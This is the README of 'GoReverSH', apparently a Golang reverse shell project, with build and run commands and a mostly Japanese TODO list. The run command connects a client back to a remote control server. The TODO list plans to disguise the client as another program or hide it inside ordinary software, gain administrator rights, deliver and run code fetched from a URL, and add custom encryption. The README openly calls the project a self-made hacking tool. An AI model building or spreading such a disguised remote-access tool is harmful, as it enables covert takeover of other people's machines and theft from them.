 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

# Author 
en@ble@ny

# Description
This is Golang ReverseShell

# Usage
config/config.jsonで出力ファイル設定


## Build
### IOS
make build
### Windows
make build_win

## RUN
### Server
./goreversh_server
### Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## Test
make test


# TODO
- [ ] クライアントテストコード <- ここから
計画して一つずつ
connモックを使って読み込みするRead 


- [ ] makefile
変数　ビルドファイル名など

- [ ] color

- [ ] clean
    ファイル全削除


- [ ] upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

- [ ] upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


- [ ] ダウンロード
    サイズ、パーミッション

- [ ] 出力ディレクトリ変更コマンド


- [ ] 別プログラムに偽装　バッチファイルなど
管理権限
別プログラムに偽装　普通のプログラムに仕込む
管理権限
画像表示コマンド　Windows
デスクトップアプリ　wails


- [ ] 暗号化
TLS -> AES共通鍵


- [ ] ロゴとアスキーアート

# 未実装
### Test
- [ ] TestWaitNotice
- [ ] TestClist
- [ ] CertTset

### 関数
- [ ] get hostname
- [ ] get currentuser


### Others
- [ ] ゴルーチンリークを注意

- [ ] build op make　でmainの変数に代入

- [ ] 操作ログを残す
logfile
出力をsetOutputで書き出し


- [ ] ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


- [ ] 暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


- [ ] TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある


- [ ] 自作ハッキングツール開発

- [ ] サーバー埋め込み型  クライアントコードにターゲットIPを埋め込む。もしくはconfig.jsonに入れる

- [ ] クライアント埋め込み型

- [ ] 管理者権限での実行方法　オプション？